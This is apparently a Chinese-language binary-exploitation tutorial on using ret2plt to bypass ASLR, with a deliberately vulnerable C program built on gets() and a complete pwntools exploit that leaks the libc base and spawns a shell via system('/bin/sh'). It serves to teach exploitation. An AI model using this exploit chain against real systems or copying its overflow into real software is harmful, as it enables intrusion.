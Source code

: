 ```yaml
---
title: 'ret2plt 绕过 ASLR'
date: '2023-08-23'
lastmod: '2023-08-23'
tags: ['PWN', 'Stack']
draft: false
summary: '绕过 ASLR'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

## 0x01 概述

这次没有可以直接利用的信息了，你必须使用前面讲到的 ret2plt 技术。在进一步了解之前，请先自己尝试一下。

LINK

```c:source.c showLineNumbers
#include <stdio.h>

void vuln() {
  puts("Come get me");

  char buffer[20];
  gets(buffer);
}

int main() {
  vuln();

  return 0;
}
```

## 0x02 分析

我们需要以某种手段泄漏 ASLR 基地址。在这题中，唯一可行的方法是 ret2plt。`gets()` 可以读取任意大小的数据，所以不用担心栈空间不足的问题。我们可以充分利用 `gets()` 构造 ret2plt 的 exploit 链。通过返回到 PLT 表，可以泄漏需要的地址信息。

因此，在栈空间充足的情况下，使用 ret2plt 是最合适的手段。

## 0x03 利用

基本信息：

```python showLineNumbers
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
libc = elf.libc

p = process()
```

现在我们要构造一个可以泄漏 `puts` 真实地址的 payload。根据之前讲到的，调用函数的 PLT 条目等同于调用函数本身。传入 `puts@got` 作为参数，会打印出 `puts` 在 `libc` 中的实际地址，因为 C 语言传递字符串参数传递的是指针。我们知道 `puts@got` 就是一个已知地址，可以打印。这样就可以通过 `puts@plt` 间接获取 `puts@got` 中的内容。

```python showLineNumbers
p.recvline()  # 只接收第一个输出

payload = flat(
    'A' * 32,
    elf.plt['puts'],
    elf.sym['main'],
    elf.got['puts']
)
```

调用 `main` 的目的是让程序可以重新运行。如果我们直接返回到一个随机的地址，会让程序崩溃。再次调用 `main` 本质上是重启了程序，这样可以使程序在泄漏 `libc` 的基地址后继续运行。然后我们就可以进行 ret2libc 攻击。

```python showLineNumbers
p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)
```

这里需要注意 `puts` 会一直输出，直到遇到空字节，所以它不只是泄漏了 GOT 表中的地址。但我们只关心第一个，也就是 GOT 表里面的前 4 个字节。使用 `u32` 转换为地址。之后，忽略调用 `main` 时产生的其它内容。我们只取关键信息，过滤无用数据。

从这里开始，我们只需要计算出 `libc` 的基地址并执行基本的 ret2libc：

```python showLineNumbers
libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    libc.sym['exit'],  # 虽然这里不需要退出，但这样做更好
    next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```

### 1x01 最终 Exploit

```python:exp.py showLineNumbers
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
libc = elf.libc

p = process()

p.recvline()  # 只接收第一个输出

payload = flat(
    'A' * 32,
    elf.plt['puts'],
    elf.sym['main'],
    elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)

libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    libc.sym['exit'],  # 虽然这里不需要退出，但这样做会更好
    next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```

## 0x04 64-bit

你知道该怎么做 :) 在 64-bit 上尝试同样的操作。如果需要，你可以使用 pwntools 的 ROP 功能；或者，为了确保你理解调用约定，请大胆地同时执行这两个操作 :P

LINK


